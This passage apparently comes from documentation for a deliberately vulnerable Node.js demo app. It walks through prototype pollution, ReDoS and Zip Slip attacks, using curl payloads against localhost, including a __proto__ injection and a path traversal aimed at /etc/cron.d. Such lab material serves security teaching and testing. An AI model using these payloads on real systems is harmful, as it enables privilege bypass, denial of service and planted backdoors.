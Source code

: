 **Attack Flow**:
```bash
# 1. Send normal message (user has no delete permission)
curl -X PUT http://localhost:3001/chat -H 'Content-Type: application/json' \
  -d '{"auth": {"name": "user", "password": "pwd"}, "message": {"text": "Hi"}}'

# 2. Pollute prototype chain
curl -X PUT http://localhost:3001/chat -H 'Content-Type: application/json' \
  -d '{"auth": {"name": "user", "password": "pwd"},
       "message": {"text": "😈", "__proto__": {"canDelete": true}}}'

# 3. Delete message (now works despite being non-admin!)
curl -X DELETE http://localhost:3001/chat -H 'Content-Type: application/json' \
  -d '{"auth": {"name": "user", "password": "pwd"}, "messageId": 1}'
```

---

### 6. **ReDoS** - Regular Expression Denial of Service (CWE-1333)
- **Severity**: High (CVSS 7.5)
- **Exploits**: `ms` package vulnerable regex (exponential backtracking)
- **Impact**: Application hang, CPU exhaustion, DoS
- **Vulnerable Package**: `ms@0.7.1`

**Attack**:
```bash
# Normal request (fast)
curl -X POST http://localhost:3001/create \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -d 'content=Buy milk in 5 minutes'

# ReDoS attack (causes hang)
curl -X POST http://localhost:3001/create \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode "content=Buy milk in $(printf '%.0s5' {1..50000}) minutea"
```

**Monitoring**:
```bash
# Watch CPU usage spike
top -l 1 | grep "node"
```

---

### 7. **Zip Slip** - Archive Path Traversal (CWE-22)
- **Severity**: High (CVSS 8.1)
- **Exploits**: `adm-zip@0.4.7` doesn't sanitize paths during extraction
- **Impact**: Arbitrary file write, overwrite system files
- **Vulnerable Code**: `zip.extractAllTo(extracted_path, true)` in routes/index.js:257

**Creating Malicious ZIP**:
```bash
# Create file with traversal path
echo "malicious content" > evil.txt
zip evil.zip evil.txt
# Manually edit ZIP to include ../../../../etc/cron.d/backdoor path

# Or use existing exploit
cd exploits/zip-slip
curl -X POST http://localhost:3001/import \
  -F 'importFile=@malicious_backup.zip'

# Check extraction
ls -la /tmp/extracted_files/
```